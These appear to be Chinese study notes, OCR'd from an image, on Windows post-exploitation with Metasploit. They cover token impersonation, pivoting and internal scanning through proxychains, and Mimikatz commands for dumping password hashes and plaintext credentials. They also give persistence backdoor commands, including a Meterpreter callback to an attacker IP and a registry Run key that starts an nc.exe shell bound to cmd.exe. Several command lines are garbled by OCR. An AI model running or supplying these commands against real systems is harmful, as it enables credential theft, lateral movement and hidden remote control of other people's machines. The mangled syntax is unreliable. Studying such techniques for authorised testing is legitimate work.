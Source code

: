 ## 令牌假冒

1. 令牌假冒简介

假冒令牌可以假冒一个网络中的另一个用户进行各种操作。令牌包括登录会话的安全信息，如用户身份识别、用户组和用户权限。当一个用户登录Windows系统时，它被给定一个访问令牌作为它认证会话的一部分。例如，一个入侵用户可能需要以域管理员处理一个特定任务，当它使用令牌便可假冒域管理员进行工作。

2. Windows安全相关概念

Session、Windows Station、Desktop、Login Session（不同账号不同，权限也不同）

3. Token简介

（1）与进程相关联，进程创建时根据LoginSession分配对应Token，含有该进程用户账号、组信息、权限信息等。

（2）用户每次登录，产生LoginSession分配对应Token。

（3）访问资源时提交Token进行身份验证，类似于Web Cookies。

（4）Delegate Token：交互登录会话。

（5）Impersonate Token：非交互登录会话。

4. Incognito
   + 独立软件，被集成到msf的meterpreter中
   + 不能获取账号密码，窃取Token将自己维护装成合法用户
   + 适用于域环境下提权渗透多操作系统

## 内网跳板

![](E:\第二周任务\4.19笔记\picture\tiaoban.png)

## 跳板攻击

1. Pivoting

* 利用已经被入侵的主机作为跳板来攻击网络中的其他系统
* 访问由于路由问题而不能直接访问的内网系统

2. 自动路由

* Run autoroute -s 192.168.102.0/24
* Run post/multi/manage/autoroute
* 利用win7攻击内网服务器
* 扫描内网网络:
  * Run post/windows/gather/arp_scanner rhosts=192.168.102.0/24
  * use auxiliary/scanner/portscan/tcp

![](E:\第二周任务\4.19笔记\picture\02.png)

## Proxychains代理设置

1. Socket代理 

* auxiliary/server/socket4

2. ProxyChains

* ProxyChains是为GNU\Linux操作系统而开发的工具，任何TcP连接都可以通过TOR或者sOcKS4, SoCKS5,HTTP /HTTPs路由到目的地。在这个通道技术中可以使用多个代理服务器。除此之外提供匿名方式，诸如用于中转跳板的应用程序也可以用于对发现的新网络进行直接通信。
* proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-mso8-067.nse 192.168.103.128

## Mimikatz

1. 介绍

Mimikatz是一款后渗透测试工具。它能够从Windows认证(LSASs)的进程中获取内存，并且获取明文密码和NTLM哈希值的工具。已被metasploit集成到meterpreter中作为一个脚本，允许方便地访问它一系列的特性，而不需要上传任何文件到目标机器上。

2. 相关命令

* 导出Hash和认证信息:msv
* 导出Kerberos认证信息:Kerberos
* 获取本地用户信息及密码: wdigest
* Mimikatz_command -f samdump:hashes
* Mimikatz_command -f sekurlsa:searchPasswords
* Mimikatz_command -f handle::list
* Mimikatz_command -f service::list
* Mimikatz_command -f crypto:listProviders
* Mimikatz_command -f nogpo::cmd

## 后门植入

1. 为什么要植入后门

* Meterpreter Shell运行于内存中，重启即失效
* 避免重复性的渗透工作
* 漏洞修复后仍旧可就维持控制

2. Meterpreter后门：Metsvc

* 通过服务启动
* Run metsvc -A     # 设定端口，上传后门文件

3. Meterpreter后门：Persistence

* 通过启动型启动
* 特性：定期会连、系统启动时回连、自动运行
* Run persistence-A- -S-U-i 60-p 4321 -r 192.168.101.111

4. NC后门

   （1）上传nc：Upload /root/nc.exe C:\windows\\system32

   （2）修改注册表：

   * 枚举注册表键值：reg enumkey -k HKLM\\softwarel\microsoft\lwindows\\currentversion\run
   * 在当前主键下增加一个nc键值：reg setval -k HKLM\\software' \microsoft\lwindowsllcurrentversion\\run -V nc -d
     'C:\windows\system32\nc.exe -Ldp 444 -e cmd.exe'
   * 查看nc键值：reg queryval -k HKLM\\software\\microsoft\lwindows\\currentversion\\Run -V nc

